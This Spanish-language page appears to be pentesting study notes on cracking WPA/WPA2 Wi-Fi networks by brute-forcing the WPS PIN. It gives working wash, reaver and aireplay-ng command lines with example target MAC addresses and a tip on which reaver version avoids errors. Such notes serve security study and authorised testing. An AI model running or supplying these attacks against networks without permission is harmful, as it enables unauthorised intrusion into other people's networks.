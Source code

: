 # WPA | WPA2 Cracking

- Ambos pueden ser crakeados por los mismos métodos.
- Creado para "mitigar" los problemas presentados en WEP.
- Más seguro.
- Cada paquete es cifrado usando una llave única temporal.
- Los paquetes no contienen información útil.

## Abusando WPS

### Consideraciones

- WPS es una característica que puede ser usada en WPA y WPA2.
- Permite a los clientes conectarse sin proporcionar contraseña.
- La autenticación es realizada usando un pin de 9 dígitos.
  - Siendo 8 dígitos una longitud muy pequeña.
  - Se puede intentar probar con todos los pins probables en un periodo relativamente corto.
  - Posteriormente se puede usar el pin WPS para calcular la contraseña actual.

*Nota: Esto sólo funcionaría si el router está configurado para no usar PBC (Push Button Authentication).*

### Ejecución

1. Visualizar las redes que tengan WPS habilitado

```bash
wash --interface <interfaz en modo monitor>
wash --interface mon0
```

2. Lanzar ataque de fuerza bruta.

```bash
reaver --bssid <MAC Address de objetivo> --channel <canal del AP> --interface <interfaz en modo monitor> -vvv --no-associate
reaver --bssid F8:23:B2:B9:50:A8 --channel 1 --interface wlan1 -vvv --no-associate
```

*Nota: Tener en consideración que kali cuenta con versiones más recientes lo que puede causar un error similar a `send_packet called from resend_last_packet() send.c:161` si es el caso se recomienda usar la versión 1.6.1, incluida en [el repositorio](./../files/reaver_1_6_1).*

3. Lanzar ataque de `Fake Authentication`.

```bash
aireplay-ng --fakeauth 30 -a <MAC Address de objetivo> -h <MAC Address de adaptador wireless> <interfaz en modo monitor>
aireplay-ng --fakeauth 30 -a F8:23:B2:B9:50:A8 -h 48:5D:60:2A:45:25 mon0
```

